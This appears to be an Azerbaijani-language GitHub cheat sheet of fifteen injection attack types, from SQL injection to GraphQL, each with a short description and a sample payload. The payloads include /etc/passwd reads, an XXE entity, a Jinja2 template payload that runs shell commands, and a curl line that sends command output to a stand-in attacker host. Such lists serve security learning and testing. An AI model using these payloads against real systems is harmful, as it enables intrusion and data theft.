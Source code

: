 # Bütün Injection Tipləri

## 1. SQL Injection (SQLi)
SQL Injection, istifadəçinin daxil etdiyi məlumatın SQL sorğusunda icra olunmasına səbəb olur.

### 1.1. Classic SQL Injection
Düzgün sanitizasiya olunmamış istifadəçi girişi ilə SQL sorğusunun manipulyasiyası.
```sql
SELECT * FROM users WHERE username = 'admin' OR '1'='1';
```

### 1.2. Blind SQL Injection
Sayt səhv mesajı qaytarmasa da, sorğunun nəticəsindən asılı olaraq fərqli cavablar qaytarır.
- **Boolean-based:**
```sql
' OR 1=1 --
```
- **Time-based:**
```sql
' OR IF(1=1, SLEEP(5), 0) --
```

### 1.3. Error-based SQL Injection
SQL səhvlərindən istifadə edərək məlumat çıxarmaq.
```sql
' UNION SELECT 1, database(), user(); --
```

### 1.4. Union-based SQL Injection
`UNION` ifadəsi vasitəsilə başqa bir sorğu nəticəsini birləşdirmək.
```sql
' UNION SELECT null, username, password FROM users --
```

### 1.5. Out-of-band SQL Injection
Daxili sorğularla məlumatın xarici serverə göndərilməsi.
```sql
' UNION SELECT LOAD_FILE('/etc/passwd') --
```

## 2. NoSQL Injection
SQL olmayan verilənlər bazalarında hücum etmək üçün istifadə edilir.
```json
{"username": {"$ne": null}, "password": {"$ne": null}}
```

## 3. Command Injection
Sistemdə əmrlər icra etməyə imkan verir.
```sh
; cat /etc/passwd
```

## 4. OS Command Injection
OS Command Injection, istifadəçinin daxil etdiyi məlumatın əməliyyat sistemi əmr sətrində icra olunmasına imkan verir.

### 4.1. Basic OS Command Injection
```sh
ping -c 4 127.0.0.1; cat /etc/passwd
```

### 4.2. Blind OS Command Injection
```sh
127.0.0.1 && sleep 10
```

### 4.3. Out-of-band OS Command Injection
```sh
curl http://attacker.com/?data=$(whoami)
```

## 5. LDAP Injection
LDAP sorğularını manipulyasiya edərək istifadəçi identifikasiyasını keçmək.
```ldap
*)(uid=*))(|(uid=*
```

## 6. XPath Injection
XML verilənlər bazasında axtarış sistemlərini aldadaraq giriş əldə etmək.
```xpath
/users/user[username/text()='admin' and password/text()='1234']
```

## 7. XSS (Cross-Site Scripting)
JavaScript kodunun icra edilməsinə səbəb olur.

### 7.1. Stored XSS
```html
<script>alert('Hacked');</script>
```

### 7.2. Reflected XSS
```html
<input type="text" value="<script>alert('XSS');</script>">
```

### 7.3. DOM-based XSS
```javascript
var evil = document.location.hash.substr(1);
document.write(evil);
```

## 8. HTML Injection
HTML strukturunu manipulyasiya edərək səhifənin tərkibini dəyişmək.
```html
<img src=x onerror=alert('Hacked')>
```

## 9. CRLF Injection
HTTP başlıqlarını dəyişmək üçün istifadə olunur.
```http
GET / HTTP/1.1\r\nSet-Cookie: admin=true
```

## 10. Email Header Injection (SMTP injection)
E-poçt başlıqlarını manipulyasiya edərək phishing hücumları etmək.
```txt
To: victim@example.com\r\nCC: attacker@example.com
```

## 11. Host Header Injection
Serverin `Host` başlığını dəyişərək zərərli URL-ləri yönləndirmək.
```http
Host: evil.com
```

## 12. XML Injection
XML sənədlərini manipulyasiya edərək məlumat oğurlamaq və ya sistemə müdaxilə etmək.
```xml
<!ENTITY xxe SYSTEM "file:///etc/passwd">
```

## 13. Template Injection
Şablon mühərriklərini manipulyasiya edərək kod icra etmək.
```jinja2
{{ self.__class__.__mro__[1].__subclasses__()[408]('id', shell=True).communicate() }}
```

## 14. Serialization Injection
Deserialization zamanı icra edilən kodları manipulyasiya etmək.
```php
O:4:"Test":1:{s:4:"data";s:5:"hacked";}
```

## 15. GraphQL Injection
GraphQL API-lərinə hücum edərək həssas məlumatları aşkar etmək.
```graphql
query { __schema { types { name } } }
```

